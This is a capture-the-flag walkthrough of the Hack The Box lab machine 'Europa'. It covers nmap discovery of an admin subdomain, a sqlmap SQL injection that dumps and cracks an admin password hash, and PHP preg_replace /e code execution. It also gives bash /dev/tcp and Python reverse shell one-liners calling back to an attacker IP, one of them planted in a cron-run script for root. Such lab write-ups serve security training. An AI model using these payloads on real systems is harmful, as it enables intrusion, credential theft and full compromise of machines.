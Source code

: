 # Europa
#### 10.10.10.22
#### Writeup by: hexp https://www.hackthebox.eu/profile/14319

**Nmap**

```{r, engine='bash', count_lines}
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (EdDSA)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Issuer: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-19T09:06:22
| Not valid after:  2027-04-17T09:06:22
| MD5:   35d5 1c04 7ae8 0f5c 35a0 bc49 53e5 d085
|_SHA-1: ced9 8f01 1228 e35d 83d3 2634 b4c1 ed52 b917 3335
|_ssl-date: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Opening :443 and :80 in browser doesn't give us anything relevant. However this line in the nmap scan looks interesting.

```
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
```

So lets change our hosts file accordingly and add:

```
10.10.10.22		admin-portal.europacorp.htb
```

Opening https://admin-portal.europacorp.htb now, redirects us to a login form. 
Lets see if the email or password is vulnerable to sql injection:

```
sqlmap -u https://admin-portal.europacorp.htb/login.php --data="email=abc'&password='" --dbms="MySQL" --technique=E  --dump --threads 8 --dbs

Database: admin
Table: users
[2 entries]
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

Awesome, we got a login name: **admin@europacorp.htb** and password hash: **2b6d315337f18617ba18922c0b9597ff**.
Decrypting the md5 hash with some online tools will translate to: **SuperSecretPassword!**
So our login is
**admin@europacorp.htb:SuperSecretPassword!**

Pretty sure we need to exploit the **OpenVPN Config Generator** located at https://admin-portal.europacorp.htb/tools.php. So after filling in a IP address a config gets generated with our IP address filled in at the locations of **ip_address**. After googling a bit we found out that the php function **preg_replace** is exploitable.

Okay intercepting the POST with BurpSuite and send it to the Repeater will leave us with a screen like this:
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/europa_burp.png "BurpSuite")


Because we have full access to the regex expression that is used in preg_replace();
We can pass the **e** modifier which will make the text being executed. I only want it to be executed once so I picked a pattern that only occurs once. As you can see I used **/remote_address/e** as the pattern and **phpinfo()** as the text. It executes perfectly as shown in the screenshot below.

![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/burp_info.png "phpinfo")

So lets put our payload in the ipaddress parameter which is as follows:

```
system("/bin/bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.14.14/12345%200>%261'");
```
And send it while listening with netcat on port 12345
```
nc -nvlp 12345
```
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/shell.png "shell")

Perfect we got shell! We can find the user flag at /home/john/user.txt

```
2f8d40cc05295154a9c3452c19ddc221
```
Alright our next step is priv esc. 
There seems to be a directory called cronjobs lets see what is inside..

```
/var/www/cronjobs$ cat clearlogs
cat clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
So apparently this script calls another script located at /var/www/cmd/logcleared.sh, lets see if we can make it spawn another reverse shell with python3.

So I created a logcleared.sh containing this code:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",12346));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and did
```
chmod 777 logcleared.sh
```
After waiting a minute listening with netcat on port 12346 we got another reverse shell with root privileges. 
Now simply cat the root.txt at /root/ et voilà :
```
7f19438b27578e4fcc8bef3a029af5a5
```